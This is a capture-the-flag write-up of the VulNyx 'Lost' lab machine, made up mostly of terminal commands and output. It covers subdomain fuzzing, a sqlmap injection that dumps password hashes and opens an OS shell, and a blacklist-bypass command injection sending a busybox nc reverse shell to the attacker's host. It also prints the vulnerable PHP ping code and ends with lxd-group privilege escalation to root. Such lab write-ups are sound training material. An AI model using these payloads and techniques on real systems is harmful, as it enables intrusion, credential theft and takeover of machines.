# CTF Penetration Testing

## Platform: VulNyx

### Machine: [Lost](https://vulnyx.com/#lost)

- Machine type:  Linux
- Machine difficulty: 🟥 Hard

#### Skills Learned

- **Subdomain Enumeration** - Fuzzing
- **SQL Injection** - SQLMap
- **Command Injection** - Bypass Blacklisted Characters
- **Linux Privilege Escalation** - `lxd`/`lxc` Group Abuse

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.228

192.168.247.228 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.228 -T5

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.228

http://192.168.247.228 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.247.228], Title[lost.nyx]

┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.228\tlost.nyx' | sudo tee -a /etc/hosts

192.168.247.228 lost.nyx
```



```
┌──(nabla㉿kali)-[~]
└─$ curl http://192.168.247.228

[SNIP]

<body>
    <video autoplay loop muted>
        <source src="assets/videos/lost.mp4" type="video/mp4">
    </video>
<!-- Try some more domain enumeration :) -->
```

**Subdomain Enumeration**

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://lost.nyx/ -H 'Host: FUZZ.lost.nyx' -fs 819 -t 100

[SNIP]

dev                     [Status: 200, Size: 9936, Words: 3426, Lines: 295, Duration: 734ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://dev.lost.nyx   

http://dev.lost.nyx [200 OK] Apache[2.4.57], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.247.228], JQuery, Script[text/Javascript], Title[lost.nyx]

┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.228\tdev.lost.nyx' | sudo tee -a /etc/hosts

192.168.247.228 dev.lost.nyx
```







**SQL Injection**





```
┌──(nabla㉿kali)-[~]
└─$ sqlmap 'http://dev.lost.nyx/passengers.php?id=1*' --batch --dump --no-cast

[SNIP]

Database: lost
Table: users
[10 entries]
+----+--------------------------------------+------------------------------------------------------------------+----------+
| id | salt                                 | password                                                         | username |
+----+--------------------------------------+------------------------------------------------------------------+----------+
| 1  | 21dcd7a1-cc0f-11ee-88ad-c6d3ce8f613a | 11389898872781d162347916c42ce996eddd106227a55ed820d9b2d8779afeb8 | jack     |
| 2  | 21dcda3d-cc0f-11ee-88ad-c6d3ce8f613a | c31a0329a22c74f36895d20c602fc9235277bc5cf3eb340b3c83f06a5f9e3ec2 | sawyer   |
| 3  | 21dcdaa1-cc0f-11ee-88ad-c6d3ce8f613a | f5adc6bb3ca2f643ab480189f9be95fdbb388f91a72efbe00bf15e9acbce12a5 | hugo     |
| 4  | 21dcdab9-cc0f-11ee-88ad-c6d3ce8f613a | 15e00c30344346cc2eaf8db69a26b52725f66cf679d89e5bbc550fa2daa3daa0 | kate     |
| 5  | 21dcdad0-cc0f-11ee-88ad-c6d3ce8f613a | fba8173e097cd7d7fc21b5ba51f141aceb7d3175187833cf885f1a9b55105d65 | benjamin |
| 6  | 21dcdae6-cc0f-11ee-88ad-c6d3ce8f613a | 257640cfdf009d58f51cf5f9639961e0f7919122102e00da44ec813b2812c1e8 | sayd     |
| 7  | 21dcdafc-cc0f-11ee-88ad-c6d3ce8f613a | cbc27bcf23e7c1de300290f7cad2c53288d49f9e0abaa9bdaf23bf013d38f473 | jacob    |
| 8  | 21dcdb0f-cc0f-11ee-88ad-c6d3ce8f613a | 981c0ce3c15f43574fd091a11ca681156c5efff6d0ff591dbf50a8cf7020f319 | claire   |
| 9  | 21dcdb26-cc0f-11ee-88ad-c6d3ce8f613a | 549499d0ec3d5c13a7c2706e10fd46fd9bb4c372827d4802998f4cbd9cdf37c3 | desmond  |
| 10 | 21dcdb39-cc0f-11ee-88ad-c6d3ce8f613a | a6552547aa662097571391ff4a5eb0f944a290973df7ee6347c78e5a74f70d0a | john     |
+----+--------------------------------------+------------------------------------------------------------------+----------+
```

```
┌──(nabla㉿kali)-[~]
└─$ sqlmap 'http://dev.lost.nyx/passengers.php?id=1*' --batch --os-shell

[SNIP]

[04:36:24] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```

```
os-shell> whoami
command standard output: 'www-data'
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337

listening on [any] 1337 ...

[CONTINUE]
```


```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.228] 59662
www-data@lost:/var/www/lost$ 
```

```
www-data@lost:/var/www/lost$ ls -l /home/

[SNIP]

drwx------ 4 jackshephard jackshephard 4096 Feb 21  2024 jackshephard
drwx------ 2 johnlocke    johnlocke    4096 Feb 20  2024 johnlocke

www-data@lost:/var/www/lost$ ss -tunlp

[SNIP]

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess         
tcp   LISTEN 0      4096       127.0.0.1:3000      0.0.0.0:*          
```

```
┌──(nabla㉿kali)-[~]
└─$ ./chisel_linux server --reverse --port 7331

2025/06/13 04:51:20 server: Reverse tunnelling enabled
2025/06/13 04:51:20 server: Fingerprint I4onyyysQyD95lX+q2qSul6yz+xV/OzlpPOm5p6TaYQ=
2025/06/13 04:51:20 server: Listening on http://0.0.0.0:7331

[CONTINUE]
```

```
www-data@lost:/var/www/lost$ ./chisel_linux client 192.168.247.128:7331 R:3000:127.0.0.1:3000
```

```
[CONTINUE]

2025/06/13 04:52:45 server: session#1: tun: proxy#R:3000=>3000: Listening
```

```
┌──(nabla㉿kali)-[~]
└─$ ss -tunlp

Netid          State           Recv-Q          Send-Q                    Local Address:Port                     Peer Address:Port          Process                                           
tcp            LISTEN          0               4096                                  *:7331                                *:*              users:(("chisel_linux",pid=63400,fd=5))          
tcp            LISTEN          0               4096                                  *:3000                                *:*              users:(("chisel_linux",pid=63400,fd=7))          
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p3000 localhost -T5 

[SNIP]

PORT     STATE SERVICE VERSION
3000/tcp open  http    (PHP 8.2.7)
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://localhost:3000

http://localhost:3000 [200 OK] HTML5, IP[::1], PHP[8.2.7], Title[Ping Tool], X-Powered-By[PHP/8.2.7]
```





**Command Injection**





```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337

listening on [any] 1337 ...

[CONTINUE]
```


```shell
ip=127.0.0.1|busybox${IFS}nc${IFS}192.168.247.128${IFS}1337${IFS}-e${IFS}sh
```



```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.228] 53114

python3 -c 'import pty; pty.spawn("/bin/bash")'

jackshephard@lost:~$
```

```
jackshephard@lost:~$ whoami
jackshephard

jackshephard@lost:~$ cat /home/jackshephard/user.txt
df5ea29924d39c3be8785734f13169c6 🚩
```

```php
<?php
    if(isset($_POST['ip'])){
        echo "<hr /><br />";
        // remove common special characters that are used
        $blacklist = array (" ","&",",","@",";","^","~","`","<",">",",","\\","/");
        $input = $_POST['ip'];
        $containsMaliciousInput = false;
        foreach ($blacklist as $char) {
            if (strpos($input, $char) !== false) {
                $containsMaliciousInput = true;
                break;
            }
        }
        // add blacklisted commands
        $blacklistedCommands = array("ls","cat","less","tail","more","whoami","pwd","busybox","echo","id");
        if (in_array($input, $blacklistedCommands)) {
            $containsMaliciousInput = true;
        }
        if ($containsMaliciousInput) {
            echo "Malicious input/command detected";
        } else {
            $output = shell_exec("ping -c 1 ".$input);
            if(isset($_GET["debug"]) == true){
                echo "<div>ping -c 1 ".$input."</div>";
            }
            echo "<pre>".$output."</pre>";
        }
    }
?>
```

**Linux Privilege Escalation**

```
jackshephard@lost:/opt/pinged$ id
uid=1000(jackshephard) gid=1000(jackshephard) groups=1000(jackshephard),111(lxd)
```


```
┌──(nabla㉿kali)-[~]
└─$ git clone https://github.com/saghul/lxd-alpine-builder

┌──(nabla㉿kali)-[~]
└─$ cd lxd-alpine-builder

┌──(nabla㉿kali)-[~]
└─$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

┌──(nabla㉿kali)-[~]
└─$ ls -l                   

[SNIP]
-rw-rw-r-- 1 nabla nabla 3259593 Jun 13 06:25 alpine-v3.13-x86_64-20210218_0139.tar.gz
-rwxrwxr-x 1 nabla nabla    8051 Jun 13 06:25 build-alpine
```

```
jackshephard@lost:/opt/pinged$ lxc image list

jackshephard@lost:/opt/pinged$ lxc image import ./alpine*.tar.gz --alias myimage

jackshephard@lost:/opt/pinged$ lxd init

jackshephard@lost:/opt/pinged$ lxc init myimage mycontainer -c security.privileged=true

jackshephard@lost:/opt/pinged$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

jackshephard@lost:/opt/pinged$ lxc start mycontainer

jackshephard@lost:/opt/pinged$ lxc exec mycontainer /bin/sh

# cd /mnt/root

/mnt/root # ls
backups         initrd.img.old  proc            usr
bin             lib             root            var
boot            lib64           run             vmlinuz
dev             lost+found      sbin            vmlinuz.old
etc             media           srv
home            mnt             sys
initrd.img      opt             tmp

/mnt/root # cat root/root.txt
74cc1c60799e0a786ac7094b532f01b1 🚩
```


---
---
